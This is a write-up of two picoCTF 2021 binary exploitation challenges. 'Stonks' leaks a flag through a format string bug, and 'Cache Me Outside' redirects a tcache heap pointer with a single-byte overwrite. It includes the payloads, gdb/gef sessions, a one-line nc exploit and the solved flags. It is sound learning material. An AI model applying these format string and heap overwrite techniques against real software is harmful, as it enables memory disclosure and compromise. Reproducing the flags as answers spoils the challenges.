 # Category: Binary Exploitation

## Stonks

Points: 20

The source code takes us through creating an imaginary stock trading network client. The part that interests us is the function `buy_stonks`, which loads the flag into a char_array and then printf our API token input:

~~~~~c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
~~~~~

This printf call is vulnerable to a format string epxloit, and so we can simply print out values on the stack and see if we can locate the flag string.

Following a guide on pwntools, I was able to create a Python program that sends "%08x"*40 to the server as the API key and then print out the output. The padding parameter `08` is particularly important to get a nicely-formatted hex string.

~~~~~bash
[+] Opening connection to mercury.picoctf.net on port 6989: Done
[*] Viewing Portfolio...
[*] Sending Format String..
%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
[*] Received data:
081e83f00804b000080489c3f7ecbd80ffffffff00000001081e6160f7ed9110f7ecbdc700000000081e718000000002081e83d0081e83f06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3538613032356533ffb4007df7f06af8f7ed9440fc411e000000000100000000f7d68be9f7eda0c0f7ecb5c0f7ecb000ffb4f018f7d5958df7ecb5c008048ecaffb4f02400000000f7eedf09

[*] Closed connection to mercury.picoctf.net port 6989
~~~~~~~

When we try to decode this hex string, we notice that the endianess causes a group of every 4 characters to be swapped. We can use CyberChef to swap the endianess and decode the string:

~~~~~text
Output: ð....°..Ã....½ì÷ÿÿÿÿ....`a....í÷Ç½ì÷.....q......Ð...ð...picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}.´ÿøjð÷@.í÷..Aü........é.Ö÷À í÷Àµì÷.°ì÷.ð´ÿ..Õ÷Àµì÷Ê...$ð´ÿ....	ßî÷
~~~~~

flag: picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}

## Cache Me Outside

Points: 70

When we connect to the program via netcat, we see that it prompts us for an address to overwrite:

~~~~~bash
cache_me_outside$ nc mercury.picoctf.net 49825
You may edit one byte in the program.
Address: 0xefff8732
Value: t help you: this is a random string.
~~~~~

Here it didn\'t prompt me to put in a value and instead printed out a string, likely because I was asking for an address outside of the program\'s address space.

When we try to execute the local heapedit program we run into a segmentation fault. This error occured because the program is expecting a different version of libc than what we have on the computer. We can use a tool called `pwninit` (link: <https://github.com/io12/pwninit>) to help us download a linker for the program and patch it automatically. **Note:** Since the `cargo install` method was not working for me, I had to download the pwninit executable from the releases page and called to it from the command line (while also being in the directory containing heapedit). To prevent `pwninit` from patching itself, make sure to specify the executable you want to target with the --bin flag:

`./pwninit --bin heapedit`

We also need to create a file called flag.txt for the program to read into. After that, we can run the program using:

`LD_PREALOAD=./libc.so.6 ./ld-2.27.so ./heapedit`

Running ./heapedit should now trigger the program correctly.

If we open the ELF file in Ghidra\'s decompiler we could see some of the program\'s behavior more clearly:

1. At the start, it reads the contents of "flag.txt" into a supposed char array.
2. The program then allocates 7 chunks of 0x80 (128 bytes), For each chunk, it writes the string "Congrats! Your flag is: " and the contents of the flag file into that chunk.
3. The program then allocates one more chunk of size 0x80 and writes the string: "Sorry! This won't help you: This is a random string."
4. Afterwards, it frees the seventh chunk followed by the last malloc\'ed chunk.
5. It then prompts the user for an integer offset, which it adds to the address of the first chunk, and writes the provided integer value to that chunk.
6. Afterwards, the program malloc one more chunk of 0x80 size and prints the value inside that chunk to standard output.

**Note:** In the code the strings were encoded as hex, like the following:

~~~~~gdb
  *local_88 = 0x5420217972726f53;
  local_88[1] = 0x276e6f7720736968;
  local_88[2] = 0x7920706c65682074;
~~~~~

To figure out what the original value was we have to convert to little-endian formatting, and then decode it from hex to ASCII. (Link to CyberChef recipe: <https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',8,true)From_Hex('Auto')Decode_text('UTF-8%20(65001)'))>

If we now run the program and provide 0 for both the address and value, we can see we still get back "t help you: this is a random string.", which is the second chunk that we freed in step 4.

The reason why we are getting this chunk back is because once the chunk was freed, it was placed into the linked list of "tcache", which is a bin that stores recently freed chunk. As explained here: <https://guyinatuxedo.github.io/29-tcache/tcache_explanation/index.html>, chunks are added to and popped from tcache in a LIFO design, and so it's expected that we would get back the last chunk we freed.

Instead, we would like for the heap manager to give us one of the seven chunks which contains the flag.

First, we can open the program in gdb, set a breakpoint at the first free command and another one at the instruction after the second free, and inspect the heap at those poinds. Following a guide at <https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Cache_Me_Outside.md>, I decided to install `gef` script for GDB which allows me to run the nifty command `heap chunks` and `heap bins tcache` to view the chunk and tcache bins, respectively:

First breakpoint:

~~~~~~~~~~gdb
gef➤  heap chunks
Chunk(addr=0x602010, size=0x250, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602260, size=0x230, flags=PREV_INUSE)
    [0x0000000000602260     88 24 ad fb 00 00 00 00 a6 24 60 00 00 00 00 00    .$.......$`.....]
Chunk(addr=0x602490, size=0x1010, flags=PREV_INUSE)
    [0x0000000000602490     66 6c 61 67 7b 74 68 69 73 5f 69 73 5f 6d 79 5f    flag{this_is_my_]
Chunk(addr=0x6034a0, size=0x90, flags=PREV_INUSE)
    [0x00000000006034a0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603530, size=0x90, flags=PREV_INUSE)
    [0x0000000000603530     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6035c0, size=0x90, flags=PREV_INUSE)
    [0x00000000006035c0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603650, size=0x90, flags=PREV_INUSE)
    [0x0000000000603650     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6036e0, size=0x90, flags=PREV_INUSE)
    [0x00000000006036e0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603770, size=0x90, flags=PREV_INUSE)
    [0x0000000000603770     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE)
    [0x0000000000603800     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE)
    [0x0000000000603890     53 6f 72 72 79 21 20 54 68 69 73 20 77 6f 6e 27    Sorry! This won']
Chunk(addr=0x603920, size=0x1f6f0, flags=PREV_INUSE)  ←  top chunk
gef➤  heap bins tcache
─────────────────────────── Tcachebins for thread 1 ───────────────────────────
All tcachebins are empty
~~~~~~~~~~

Second Breakpoint:

~~~~~~gdb
gef➤  heap bins tcache
─────────────────────────── Tcachebins for thread 1 ───────────────────────────
Tcachebins[idx=7, size=0x90] count=2  ←  Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE) 
~~~~~~

We can see after the free commands there are now two chunks in the tcache bin, where the first chunk in the list is the chunk with the "Sorry! This won't help you: this is a random string." message. 

To exploit the program, we need to find whatever is pointing to that chunk's buffer address and change it. We do so using the `grep` command with escape characters:

~~~~~gdb
gef➤  grep '\\x90\\x38\\x60'
[+] Searching '\x90\x38\x60' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602088 - 0x602094  →   "\x90\x38\x60[...]" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffddd0 - 0x7fffffffdddc  →   "\x90\x38\x60[...]" 
~~~~~~

The entry we're looking for is likely the one at the address 0x602088. We can calculate the input address with the `p/d [variable]` command, which prints a variable as an signed integer:

~~~~~gdb
gef➤  p/d 0x602088 - 0x6034a0
$1 = -5144
~~~~~

Jason Padgett
Since the program allows us to edit one byte, we want to change the value of "\x90" to "\x00" so it will send us to the 0x603800 chunk instead. We could edit other bytes of the address, but this seems the most straightforward.

Altogether, we get the following one-line exploit:

~~~console
grayhimakar@grayhimakar-VirtualBox:~/Documents/2021-picoctf/Binary_Exploitation/cache_me_outside$ ( echo "-5144"; echo -e "\x00";) | nc mercury.picoctf.net 49825
You may edit one byte in the program.
Address: Value: lag is: picoCTF{53be92758865dfd2779fa96526dbd0a3}
~~~

Flag: picoCTF{53be92758865dfd2779fa96526dbd0a3}

## Here's a LIBC

Points: 90